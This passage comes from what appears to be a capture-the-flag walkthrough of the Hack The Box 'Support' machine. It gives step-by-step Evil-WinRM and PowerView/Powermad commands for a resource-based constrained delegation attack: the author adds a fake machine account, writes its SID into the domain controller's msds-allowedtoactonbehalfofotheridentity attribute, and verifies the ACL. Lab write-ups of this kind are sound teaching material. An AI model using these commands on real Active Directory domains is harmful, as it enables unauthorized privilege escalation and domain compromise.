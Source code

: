 I’ll also need to make sure there’s a 2012+ DC in the environment:

```
*Evil-WinRM* PS C:\programdata> Get-DomainController | select name,osversion | fl

Name      : dc.support.htb
OSVersion : Windows Server 2022 Standard
```

2022 Standard is great.

Finally, I’ll want to check that the `msds-allowedtoactonbehalfofotheridentity` is empty:

```
*Evil-WinRM* PS C:\programdata> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl

name                                     : DC
msds-allowedtoactonbehalfofotheridentity :
```

It is.

#### Create FakeComputer

I’ll use the Powermad `New-MachineAccount` to create a fake computer:

```
*Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
[+] Machine account 0xdfFakeComputer added
```

I need the SID of the computer object as well, so I’ll save it in a variable:

```
*Evil-WinRM* PS C:\programdata> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
*Evil-WinRM* PS C:\programdata> $fakesid
S-1-5-21-1677581083-3380853377-188903654-1121
```

#### Attack

Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC:

```
*Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\programdata> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

I’ll verify it worked:

```
*Evil-WinRM* PS C:\programdata> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\programdata> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\programdata> $Descriptor.DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-1121
```